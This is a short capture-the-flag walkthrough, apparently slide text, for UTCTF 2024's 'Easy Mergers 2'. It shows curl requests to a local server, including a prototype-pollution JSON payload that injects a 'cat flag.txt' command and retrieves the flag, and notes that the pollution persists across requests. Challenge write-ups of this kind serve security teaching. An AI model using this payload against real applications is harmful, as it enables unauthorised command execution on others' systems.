

# Polluting prototypes: UTCTF 2024/Easy Mergers 2
$ curl -X POST "http://localhost/merge" -H "Content-Type: application/json"
Try harder
$ curl -X POST "http://localhost/merge" -H "Content-Type: application/json" --data-raw '{"attributes": ["__proto__"], "values": [{"cmd": "cat flag.txt"}]}'
flag{:blobcat_radiation:}
$ curl -X POST "http://localhost/merge" -H "Content-Type: application/json"
flag{:blobcat_radiation:}
It works!
Observe that prototype pollution persists, so once the payload is sent, subsequent requests without the payload still reveals the flag
If you want to retry, you need to restart the server
For CTF designers: You might want to use Docker to host such a challenge
64